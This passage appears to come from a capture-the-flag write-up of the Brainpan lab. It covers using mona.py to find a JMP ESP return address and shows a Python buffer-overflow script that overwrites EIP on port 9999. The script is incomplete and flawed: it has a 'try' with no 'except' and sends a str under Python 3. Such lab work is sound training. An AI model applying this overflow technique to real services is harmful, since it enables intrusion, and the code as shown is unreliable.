 #### Find a Return Address

Our next step is to find a return address for our exploit. To do this I use the Immunity Debugger plugin mona.py plugin. Running '!mona modules' in the bottom bar of Immunity Debugger I can see all the modules used. I am looking for any module which has False displayed across columns as this means I don't need to worry about protection mechanisms. 

![monamodules](/assets/images/brainpan/monamodules.png)

Only one is available and its the brainpan.exe itself, now to check for JMP ESP pointers.  

![monafind](/assets/images/brainpan/monafind.png)

Again only one with the value 311712f3. x86 architectures stores values in memory using little endian which means we need to reverse the byte order when adding to our script.

Now I have a JMP ESP value I update the script.

```highlight
#!/usr/bin/python3

import sys, socket
from time import sleep

#badchars = /x00

filler = "A" * 524
EIP = "\xf3\x12\x17\x31" #JMP ESP - 311712f3
offset = "C" * 4
junk = "D" * (700 -len(filler)-len(EIP))
buffer = filler + EIP + offset + junk

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("brainpan",9999))
    s.recv(1024)
    s.send(buffer + "\r\n")
    s.close()
```